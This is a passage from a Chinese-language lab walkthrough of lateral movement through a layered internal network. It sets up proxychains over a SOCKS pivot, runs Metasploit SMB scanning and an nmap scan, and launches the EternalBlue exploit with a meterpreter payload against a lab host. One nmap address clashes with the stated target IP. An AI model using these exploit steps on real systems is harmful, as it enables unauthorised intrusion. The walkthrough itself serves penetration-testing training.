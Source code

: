 然后配置proxychains：

![截图](ce3df02c63f2b44a8e2c0ca4f715b7bd.png)

此时，就可以设置proxychains等代理工具，通过访问攻击机的1090端口来使用架设在第二层网络Windows主机上的socks代理服务，来进入第三层网络了。

在第二层网络Windows主机上执行ping命令扫描第三层网络中

接着，我们使用metasploit的` auxiliary/scanner/smb/smb_version` 模块（可用来探测Windows主机存活）来扫描第三层网络中的主机存活：

```
use auxiliary/scanner/smb/smb_version
set rhosts 192.168.93.1-255
set threads 5
run
```

![截图](9e401863e3fb8024bd07626c654d6205.png)

如上图，发现第三层网络中还有两个Windows主机，分别为DC（192.168.93.30）和PC2（192.168.93.40），使用nmap进一步扫描PC2主机信息：

```
proxychains4 nmap -Pn -sT -sV 192.168.52.40
```

没发现什么有用的服务，我们直接打一个“永恒之蓝”试试：

```
setg Proxies socks5:127.0.0.1:1090
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.93.40
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.93.40
set lport 4444
exploit
```

第四台靶机拿下.

此时，绘制出网络拓扑图如下：

![截图](ab4cfa9b58a73fde749f740b9d4d6203.png)
